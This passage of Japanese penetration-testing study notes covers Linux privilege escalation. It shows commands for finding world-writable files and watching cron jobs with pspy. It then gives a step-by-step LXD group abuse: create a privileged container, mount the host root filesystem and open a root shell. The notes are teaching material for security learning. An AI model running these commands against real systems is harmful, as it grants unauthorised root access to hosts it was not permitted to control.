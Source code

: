 Cron Jobの悪用例: 書き込み可能なファイルを探す
```sh
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

**pspy**
- root権限がなくても実行中のプロセスを表示することで、クロンジョブが実行されていることを確認できる
- このツールを使用すると、他のユーザーが実行したコマンドやクロンジョブなどを確認できる
- /procファイルシステムをスキャンすることで機能する

Cron Jobの悪用例: pspyによるプロセス監視
```sh
./pspy64 -pf -i 1000
```

## コンテナ
- コンテナはオペレーティングシステムレベルで動作し、仮想マシンはハードウェアレベルで動作する
- **LXC/LXD:** LXCはアプリケーションコンテナ、LXDはシステムコンテナです
	- アプリケーションコンテナは、OSを共有
	- LXDは、OSを共有しない
	- このサービスを利用して権限を昇格させるには、lxcまたはlxdグループに属している必要がある

LXD グループに属しているかの確認
```shell-session
id
> uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```

 - LXC/LXDを悪用する方法はいくつかある
 - 独自のコンテナを作成してターゲットシステムに転送するか、既存のコンテナを使用することができる

コンテナイメージの確認
```shell-session
cd ContainerImages
ls
> ubuntu-template.tar.xz
```

 - 残念ながら、管理者はセキュリティがほとんどない、または全くないテンプレートを使用することがよくある
 - そのために、まずこのコンテナをイメージとしてインポートする必要がある
```shell-session
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
lxc image list
```

- このイメージが正常にインポートされたことを確認した後、イメージをインスタンス化し、`security.privileged`フラグとコンテナのルートパスを指定して構成できる
	- この`security.privileged`フラグは、ホスト上で動作できるようにするすべての隔離機能を無効にする
```sh
lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

完了したら、コンテナを起動してログインする
コンテナ内で、指定したパスに移動して、ホストシステムのリソースにrootとしてアクセスできる
```shell-session
lxc start privesc
lxc exec privesc /bin/bash #注意 : lxc exec privesc /bin/shじゃないと動かないこともある
ls -l /mnt/root
```

